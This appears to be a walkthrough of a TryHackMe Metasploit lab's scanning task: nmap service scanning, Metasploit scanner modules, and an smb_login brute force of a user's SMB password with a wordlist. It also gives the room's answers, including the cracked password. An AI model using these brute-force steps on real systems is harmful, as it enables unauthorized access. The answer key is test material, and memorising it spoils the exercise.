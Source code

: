 # TryHackMe: Metasploit: Exploitation - Walkthrough

Room URL: https://tryhackme.com/room/metasploitexploitation




# Task 2: Scanning


**Questions:**


**1- How many ports are open on the target system?**

first start `msfconsole` command to run metasploit framework command-line interface

port scan the target system using `nmap -sV <target ip>` to attempts to determine the version of the service running on port 


![image](https://github.com/user-attachments/assets/28d0cf99-da9e-4092-9711-abe09ac4a60c)

Ans: ***5***

**2-Using the relevant scanner, what NetBIOS name can you see?**

you can search for NETBIOS module using ```search netbios```

then select the relevet module which is ```use auxiliary/scanner/netbios/nbname```

```show options``` then set the required paramters 

However, since we used the Nmap scanner to scan for open ports and determine the version running, we don't need to go through these steps. 

as you can see in the picture above in the version column for the netbios service 

Ans:  ***ACME IT SUPPORT***


**3-What is running on port 8000?**

if you want to use a module for scanning. use this module `use auxiliary/scanner/http/http_version` to scan for http version and set the required parameters.

in the picture above, you can see port 8000 open and the service running at is http with version  webfs/1.21 http 1.21

Ans: ***webfs/1.21***

**4- What is the “penny” user’s SMB password? Use the wordlist mentioned in the previous task.**

`search smb` to search for smb module 

`use  auxiliary/smb/smb_login` The smb_login module is used to bruteforce SMB remotely. SMB credentials are extra valuable because they are system credentials, and you can probably reuse some of them to log in to more machines. If you have a database plugin loaded, successful logins will be stored in it for future reference and usage.

then set the required parameters 

`set rhosts <target ip>`

`set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt`

`set SMBUser penny`

`run` to run the module

![image](https://github.com/user-attachments/assets/caf8a9d3-2498-4a45-83ac-5d8af88f482e)
![image](https://github.com/user-attachments/assets/7d3c7f1e-2c68-47d2-b5fb-81892facd412)

Ans: ***leo1234***



